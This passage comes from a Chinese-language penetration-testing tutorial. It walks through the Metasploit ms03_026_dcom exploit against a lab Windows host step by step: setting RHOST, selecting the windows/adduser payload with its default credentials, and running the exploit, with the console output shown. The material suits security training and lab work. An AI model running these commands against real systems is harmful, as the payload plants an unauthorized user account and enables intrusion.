 这里，`RHOST`表示远程主机的 IP 地址，`RPORT`表示默认绑定端口。`RPORT`的值默认设置为`135`。我们将不得不将`RHOST`的值设置为我们的目标 IP 地址，以执行 exploit：

```
    msf exploit(ms03_026_dcom) > set RHOST 192.168.56.102
    RHOST => 192.168.56.102
    msf exploit(ms03_026_dcom) > 
    ```

### 注意

请注意，`ms03_026_dcom` exploit 的 ID 设置为`0`。这意味着我们不需要指定目标上运行的 Windows 机器。它可以利用其中列出的任何 Windows 机器。对于任何其他 exploit，我们可能需要使用`show targets`命令选择目标操作系统。

现在，`RHOST`的值已设置为我们的目标 IP 地址。如果我们尝试运行 exploit，我们将收到错误消息。原因是我们尚未为 exploit 选择任何有效载荷。

1.  我们的下一步将是选择相关的有效载荷。我们可以使用`show payloads`命令列出所有可用的有效载荷。我们将从`windows/adduser`有效载荷的简单示例开始。此有效载荷将在目标操作系统中添加一个新用户：

```
    msf exploit(ms03_026_dcom) > set PAYLOAD windows/adduser
    PAYLOAD => windows/adduser 
    ```

1.  现在，如果我们再次使用`show options`命令，它将列出 exploit 和 payload 的参数。有效载荷参数将如下所示：

```
    Payload options (windows/adduser):
    Name Current Setting Required Description
    ---- --------------- -------- -----------
    EXITFUNC thread yes seh, thread, process, none
    PASS metasploit yes password for this user
    USER metasploit yes The username to create 
    ```

我们可以看到将添加到我们的目标操作系统的默认用户名和密码是`metasploit`和`metasploit`。我们可以使用`set PASS`和`set USER`命令更改这些值。

1.  现在我们的有效载荷已设置好，我们准备渗透目标机器。我们将使用以下命令启动 exploit：

```
    msf exploit(ms03_026_dcom) > exploit
    [*] Trying target Windows NT SP3-6a/2000/XP/2003 Universal...
    [*] Binding to 4d9f4ab8-7d1c-11cf-861e-0020af6e7c57:0.0@ncacn_ip_tcp:192.168.56.102[135] ...
    [*] Bound to 4d9f4ab8-7d1c-11cf-861e-0020af6e7c57:0.0@ncacn_ip_tcp:192.168.56.102[135] ...
    [*] Sending exploit ...
    [*] Exploit completed, but no session was created. 
    ```

输出的最后一行显示 exploit 已成功完成在目标机器上。现在将在目标机器中添加一个新用户。输出还表示未创建任何会话。这是因为我们使用的有效载荷是一个简单的`adduser`，不需要任何活动会话。因此，一旦 exploit 完成，与目标的连接就会结束。在下一个步骤中，我们将使用有效载荷设置会话。

## 工作原理...
